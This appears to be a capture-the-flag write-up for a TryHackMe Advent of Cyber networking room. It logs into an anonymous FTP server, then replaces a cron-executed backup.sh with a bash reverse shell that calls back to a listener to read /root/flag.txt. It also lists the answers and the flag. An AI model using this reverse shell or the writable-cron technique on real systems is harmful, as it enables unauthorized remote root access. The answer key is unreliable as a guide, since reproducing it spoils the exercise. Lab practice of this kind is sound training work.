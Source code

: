 # Day 8 - Anyone can be Santa! (Networking)

1. Question #1: Name the directory on the FTP server that has data accessible by the "anonymous" user. Run `ftp 10.10.42.118` and enter username `anonymous`. Run `ls` to find `public` has permissions `drwxrwxrwx` and is owned by `65534`.

2. Question #2: What script gets executed within this directory? `cd public` and `ls` to get `backup.sh`.

3. Question #3: What movie did Santa have on his Christmas shopping list? `get shoppinglist.txt` and in a local terminal run `cat shoppinglist.txt` to get `The Polar Express`.

4. Question #4: Re-upload this script to contain malicious data (just like we did in section 9.6. Output the contents of /root/flag.txt!

    1. Start reverse shell listener with netcat (`nc -lvnp 45913`) or pwncat (`pwncat 0.0.0.0:45913`).

    2. Grab bash reverse shell from [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp) and configure it `bash -i >& /dev/tcp/10.9.215.103/45913 0>&1`.

    3. Create a file locally called `backup.sh` and paste in the reverse shell with a shebang of `#!/bin/bash`.

    4. Use ftp to copy the file with `put backup.sh` in the ftp terminal.

    5. Wait a minute for the cronjob to execute and run `cat /root/flag.txt` to get `THM{even_you_can_be_santa}`
